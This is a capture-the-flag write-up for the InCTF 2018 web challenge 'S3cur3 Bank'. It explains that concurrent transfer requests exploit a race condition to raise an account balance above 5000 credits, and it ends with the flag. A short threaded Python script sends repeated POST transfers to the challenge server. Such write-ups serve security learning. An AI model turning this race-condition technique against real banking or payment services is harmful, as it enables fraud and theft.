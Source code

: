 ### InCTF 2018

##### Challenge: S3cur3 Bank

##### Category: Web

##### Points: 179

##### Solves: 44/306

##### Description: It is notoriously called the most secure bank service ever. It allows us to transfer your money between 2 accounts. Can you hack the service to buy a flag???

In this challenge we had a website of a bank that after sign up and sign in we see two bank accounts with a total of 2000 credits and we could do transfer between them. In the same site, we had a button for buying a flag but it cost 5000 credits.

After analyzing the website (HTML code, headers, parameters, etc.) we did not see anything that seemed vulnerable, so Race Condition came to our mind.

We created a simple script in python with a couple of threads to make multiple transactions in a short period of time.

```python
import time
import requests
import threading

headers = {'Content-Type': 'application/x-www-form-urlencoded'}
for i in range(0xfffff):
    time.sleep(0.1)

    def AtoB(cantidad):
        r = requests.post( 'http://18.188.42.158/bank.php?id=b188193ac995dc526ad52fb835b3357c', 
                           headers=headers, 
                           data={'transfer':cantidad,'account':'Transfer to B'})

    threading.Thread(target=AtoB, args=(200, )).start()
    threading.Thread(target=AtoB, args=(200, )).start()

```
After some executions we got more than 5000 credits and could buy the flag :)

![securebank1](https://user-images.githubusercontent.com/38633962/46703201-66c7e500-cc26-11e8-991c-bd20d5756780.png)

```
inctf{y0u_r4c3_v3ry_w3ll}
```
